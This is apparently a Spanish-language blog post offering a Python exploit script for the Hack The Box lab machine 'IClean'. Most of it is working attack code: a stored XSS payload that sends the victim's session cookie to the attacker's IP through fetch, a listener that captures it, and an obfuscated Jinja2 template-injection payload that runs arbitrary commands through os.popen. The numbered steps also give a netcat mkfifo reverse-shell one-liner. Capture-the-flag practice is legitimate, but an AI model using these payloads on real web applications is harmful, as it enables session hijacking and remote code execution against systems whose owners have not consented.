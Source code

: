 ```yaml
---

title: ICleanHTB 
date: 2024-04-13 07:03 +0800
categories: [Scripts]
tags: [Scripts, HTB]
pin: true
image:
  path: /assets/img/commons/ICleanHTB/bannerICleanHTB.png
  width: 66
  height: 40
  alt: IClean
---
```


Este script se aprovecha un XSS y un SSTI en la máquina IClean de HTB.

   1. El endPoint `/sendMessage` es vulnerable a XSS, realizamos una petición a un servidor en nuestra máquina
   2. Creamos un servidor, se recibe una cookie de session.
   3. Con la cookie podemos acceder a `/QRGenerator`, la variable `qr_link` es vulnerable a SSTI, y podemos realizar ejecución de comandos.
   4. Revshells nc mkfifo -> `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc IP PORT >/tmp/f`

<figure style="text-align: center;">
  <img src="/assets/img/commons/ICleanHTB/ICleanHTB.png" alt="VMnet_lab">
  <figcaption style="font-style: italic; font-size: smaller;"></figcaption>
</figure>

-----------------------------------------------------------------------------------------------

```python
#!/usr/bin/env python3

import requests
import sys
import re
import socket
import signal
from termcolor import colored
from urllib.parse import quote
from http.server import BaseHTTPRequestHandler, HTTPServer

miIP = "10.10.16.9"
headers = {
    'Content-Type': 'application/x-www-form-urlencoded',
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36',
}

def def_handler(sig, frame):
    print(colored(f"\n[!] Saliendo...\n", 'red'))
    sys.exit(1)
signal.signal(signal.SIGINT, def_handler)

def serverPY():
    host = ''
    port = 80
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.bind((host, port))
        s.listen(1)
        print(colored(f"\n\t[+] Server Python: ", 'blue'))
        conn, addr = s.accept()
        print(f"\t\t- Conexión: {addr}, Cookie Recibida")
        received_data = b""
        while True:
            data = conn.recv(1024)
            if not data:
                break
            received_data += data
        decoded_data = received_data.decode('utf-8')
        session_index = decoded_data.find('session=')
        if session_index != -1:
            session_content = decoded_data[session_index + len('session='):]
            cookieRC = session_content.split()[0]
            print(f'\t\t- Cookie: {cookieRC}')
        return cookieRC

def exCookie():
    urlCookie = "http://capiclean.htb/sendMessage"
    data = {
        'service' : f'<img src=x onerror=fetch("http://{miIP}/"+document.cookie);>',
        'email' : 'test@test.com',
    }
    r = requests.post(urlCookie, headers=headers, data=data)

def sttiPost(cookieRC, headers):
    while True:
        command = input(colored("\n\t[+] Command -> ", 'blue'))
        url = 'http://capiclean.htb/QRGenerator'

        cookies = {
            'session': f"{cookieRC}"
        }
        data = {
            'invoice_id': '',
            'form_type': 'scannable_invoice',
            'qr_link': '{{request\\|attr(\'application\')|attr(\'\\x5f\\x5fglobals\\x5f\\x5f\')|attr(\'\\x5f\\x5fgetitem\\x5f\\x5f\')(\'\\x5f\\x5fbuiltins\\x5f\\x5f\')|attr(\'\\x5f\\x5fgetitem\\x5f\\x5f\')(\'\\x5f\\x5fimport\\x5f\\x5f\')(\'os\')|attr(\'popen\')(\'id\')|attr(\'read\')()}}'.replace('id', command)
        }
        response = requests.post(url, headers=headers, cookies=cookies, data=data)
        response_text = response.text
        filterResponse = re.search(r'<div class="qr-code-container">.*?<img src="(data:image\/png;base64,.*?)".*?>', response_text, re.DOTALL)
        filterClean = filterResponse.group(1)
        match = filterClean.replace("data:image/png;base64,", "")
        if match:
            print("\t\t $>", match) 
        else:
            print("No se encontró el código de la imagen base64.")
        continue

def main():
    print(colored(f"\n[+] Este script se aprovecha de la vulnerabilidad XSS y SSTI en la máquina ICLEAN", 'green'))
    exCookie()
    cookie_rc = serverPY()
    sttiPost(cookie_rc, headers)

if __name__ == '__main__':
    main()
```
